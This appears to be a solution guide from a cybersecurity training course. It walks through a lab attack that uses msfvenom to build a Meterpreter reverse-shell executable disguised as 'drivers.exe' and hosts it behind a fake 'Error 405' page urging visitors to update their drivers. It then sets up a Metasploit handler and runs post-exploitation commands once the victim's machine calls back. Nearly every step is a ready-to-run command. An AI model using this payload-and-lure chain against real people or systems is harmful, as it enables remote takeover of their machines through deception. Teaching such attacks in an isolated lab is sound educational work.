






## Solution Guide: Creating Custom Payloads

The goal of this activity was to craft customized payload options and understand how criminal hackers use them to bypass security controls.

---

### In the Kali Machine

1. For this attack, you will craft a custom malicious payload.

   Using `msfvenom`, craft a malicious executable with the following criteria:

      - Creates a `reverse_tcp` session using Meterpreter.
     
      - Payload is designed to exploit any Windows platform in general.

      - The file type is EXE.

      - Saves the output file to the `/var/www/html/` directory.

      - The local host is the attacking machine's IP address (Kali Linux).

      - The local port is `4444`.

      - Has the name `drivers.exe`.

   After you craft the payload, run the command to create it.  

    - **Solution**: `msfvenom -p windows/meterpreter/reverse_tcp -f exe LHOST=192.168.0.8 LPORT=4444 -o /var/www/html/drivers.exe`
        
    

2. To begin, create a backup of the index.html file that is located in the `/var/www/html/` directory without overwriting its current contents:

   -  Run the following commands:
   ​
      - `cp /var/www/html/index.html /var/www/html/index.html.bak`

         - This command backs up the original `index.html` without overwriting it.
   ​
      - `ls /var/www/html/`
         - This lists the contents of the `/var/www/html/` directory to verify that you have both the `index.html` and `index.html.bak` files. 


3. Build the malicious code into the webpage. The HTML code is provided below. You will need to edit the `/var/www/html/index.html` file with the name of your executable `drivers.exe`.

   - Use Nano to edit the `index.html` file:

      - Run `nano /var/www/html/index.html`

  - Edit the following code into the file and change the name of your executable in the HTML code from `sample.exe` to `drivers.exe`:
​ 
   ```html
   <html>
   <head>
      <title>Error 405: Unable to…</title>
   </>
   <body>
      <h1>Error 405: Unable to browse the web.</h1>
      <hr>
      <h3>Your drivers seem to be outdated and are not secure anymore. To resolve this issue and access the internet again you need to update your drivers.</h3>
      <br>
      <h3>Click <a href=sample.exe>here</a> to download and install the required drivers.</h3>
   </body>
   </html>
   ```
      


View the `index.html` file to verify it contains `drivers.exe`. 
- Run: `cat /var/www/html/index.html`



4. Now that we have our website staged, restart the Apache2 service to get it up and running:

   - You will need to restart the service every time you make a change to this file. 
  
   - Restart the Apache2 web server.

      - **Solution**: Run `service apache2 restart`

5. Launch the Metasploit Framework. 

     -  **Solution**: Run `msfconsole`

      We are now presented with the `msfconsole` prompt.

     

6. Test the malicious website to ensure it's working properly. Launch a web browser and navigate to the localhost:
​
   - Type the following into the URL: `127.0.0.1`
​
   - The webpage should launch with the headline: **Error 405: Unable to browse the web.**
​
   - This indicates our website is online and ready for action.

   - Note that while the website shows an error, the page contains the malicious link that unsuspecting visitors are encouraged to click.

​
    

7. Now we will configure the setting for the listener. Return to the terminal. Run the series of commands that will accomplish the following tasks and then run the exploit.

    **Solutions:**

   -  Uses the `exploit/multi/handler` module:

      - `use exploit/multi/handler`

   - Sets the payload to `windows/meterpreter/reverse_tcp`:

     - `set PAYLOAD windows/meterpreter/reverse_tcp`

   - Sets the local host to the IP of Kali Linux:

     - `set LHOST 192.168.0.8`

         (`192.168.0.8` is the IP of Kali.)

   -  Sets the local port to `4444`:

      - `set LPORT 4444`

   - Verifies that the settings took effect:

     - `show options`

   - Runs the exploit:

     - `exploit` or `run`

     
### In the DVW10 Windows Machine

8. Launch the DVW10 VM and open the web browser.

    Type the IP address of the Kali Linux machine in the URL.

    - **Solution:** `192.168.0.8` 

   - You will get a series of error messages. For both prompts, select **Run**.
    
​
    

  This step delivered the payload to the victim's machine. We can now return to our attacking machine and perform some post-exploitation.   


### In the Kali Machine

9. Return to the Kali machine and perform some post-exploitation commands. 

   **Solutions:**

   - Run the command that generates a Windows command prompt:

     -  `shell`

   - Run the command that returns network shares:

     - `net share`

   - Run the command that returns all users on the DVW10 system:

     - `net users`

     

____

&copy; 2020 Trilogy Education Services, a 2U Inc Brand.   All Rights Reserved.
